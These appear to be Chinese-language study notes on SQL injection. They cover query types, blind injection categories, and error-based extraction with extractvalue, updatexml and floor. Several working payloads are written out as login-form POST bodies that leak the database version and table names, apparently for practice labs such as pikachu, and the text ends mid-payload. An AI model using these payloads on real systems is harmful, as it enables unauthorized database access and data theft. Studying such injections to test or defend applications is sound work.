





# SQL注入之查询方式

当进行SQL注入时，有很多注入会出现无回显的情况，其中不回显得原因可能时SQL语句查询方式问题导致，这个时候我们需要用到报错或者盲注进行后续操作，同时在注入的过程中，提前了解其中SQL语句可以更好的选择对应的注入语句。

select 查询数据

例如：在网站应用中进行数据显示查询操作

```
select * from user where id=$id
```

## delete 删除数据

例如：后台管理里面删除文章删除用户等操作

```
delete from user where id=$id
```

## insert 插入数据

例如：在网站应用中进行用户注册添加操作

```
inser into user （id,name,pass） values(1,'zhangsan','1234')
```

## update 更新数据

例如：后台中心数据同步或者缓存操作

```
update user set pwd='p' where id=1
```

# SQL注入 报错盲注

盲注就是在注入的过程中，获取的数据不能显示到前端页面，此时，我们需要利用一些方法进行判断或者尝试，我们称之为盲注。我们可以知道盲注分为以下三类：

### 1.基于布尔的SQL盲注 - 逻辑判断

regexp like ascii left ord mid

### 2.基于时间的SQL盲注 - 延时判断

if sleep

### 3.基于报错的SQL盲注 - 报错回显（强制性报错   ）

函数解析：

**updatexml():从目标XML中更改包含所查询值的字符串**

第一个参数：XML_document 是String格式，为XML文档对象的名称，文中为DOC

第二个参数：XPath_string(Xpath格式字符串)

第三个参数：new_value,String格式，替换查找到的符合条件的数据

updatexml（XML_document,XPath_String,new_value）;


**extractvalue():从目标XML中返回包含所查询值的字符串**

第一个参数：XML_document 是String格式，为XML文档对象的名称，文中为DOC

第二个参数：XPath_String (Xpath格式字符串)

extractvalue(XML_document,XPath_String)

extractvalue函数应用：

通过下图可以对xpath路径有一定的了解


首先在proxy处通过右键点击send to repeater,就可以点击repeater到下图的界面。

	

sql报错注入代码,可以通过报错信息查看当前网页所使用的数据库版本。

extractvalue只需要让xpath路径填错，那么这个函数就会把第二个参数所执行的错误信息输出出来。又因为显示版本只有一部分，所以需要加上concat函数来进行拼接，从而使得显示完整

```
uname=hsw' union select 1,extractvalue(1,concat('~',(select version()))) #&passwd=123456&submit=Submit
```

	

sql注入语句,可以进一步查看该网页的数据库有哪些表

limit 0,1是表示查看当前数据的第一条,并只显示一行。因为在repeater中不能显示多行。

```
uname=hsw' union select 1,extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema=database() limit 0,1))) #&passwd=123456&submit=Submit
```

	

使用updatexml函数也是一样的道理,只要让xpath路径故意填错，从而通过错误提示信息得知数据库的版本号。

```
uname=hsw' union select 1,updatexml(1,concat('~',(select version())),2) #&passwd=123456&submit=Submit
```

	

使用or也可以拿来代替union的效果。

```
uname=hsw' or updatexml(1,concat('~',(select version())),2) #&passwd=123456&submit=Submit
```

	


floor()向下取整  floor（10.5）  =  10
rand（）随机数 0 ~ 1之间
count（*）函数返回表的记录数。
concat函数：将多个字符串连接成一个字符串
group_by 根据by对数据按照哪个字段、进行分组，或者是哪几个字段进行分组（去重）。
会建立一张临时表
注意：多个字段分组要使用某个列的聚合函数 cout sum等

pikachu insert

username=x' or (select 1 from (select count(*),concat((select))
